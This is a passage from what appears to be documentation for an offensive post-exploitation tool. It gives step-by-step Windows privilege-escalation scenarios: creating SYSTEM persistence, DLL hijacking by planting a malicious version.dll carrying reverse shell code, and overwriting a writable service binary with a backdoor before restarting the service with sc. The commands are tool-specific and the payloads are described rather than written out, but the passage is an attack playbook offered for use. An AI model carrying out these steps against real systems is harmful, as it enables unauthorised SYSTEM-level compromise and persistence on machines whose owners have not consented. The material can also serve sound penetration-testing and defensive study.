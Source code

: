 ```bash
# 5. Create persistence as admin
priv_persist
# Result: Scheduled task created as SYSTEM
```

---

### Scenario 2: DLL Hijacking

```bash
# 1. Find DLL hijacking opportunities
priv_dll_hijack
# Finds: C:\Program Files\CustomApp\app.exe -> version.dll

# 2. Create malicious DLL
# (On attacker machine, create version.dll with payload)
# Export DllMain function
# Add reverse shell code

# 3. Upload malicious DLL
# upload version.dll

# 4. Move DLL to target directory
# (Use file system commands to place DLL)
# move version.dll "C:\Program Files\CustomApp\version.dll"

# 5. Wait for or trigger application execution
# Result: Payload executes with application's privileges
```

---

### Scenario 3: Writable Service Binary

```bash
# 1. Find weak file permissions
priv_weak_perms
# Finds: C:\Apps\service.exe (Service binary writable)

# 2. Check service details
priv_services
# Find service running as SYSTEM with auto-start

# 3. Replace service binary with payload
# upload backdoor.exe
# move /Y backdoor.exe C:\Apps\service.exe

# 4. Restart service (if admin) or wait for reboot
# sc stop ServiceName
# sc start ServiceName
# Result: Payload executes as SYSTEM
```

---
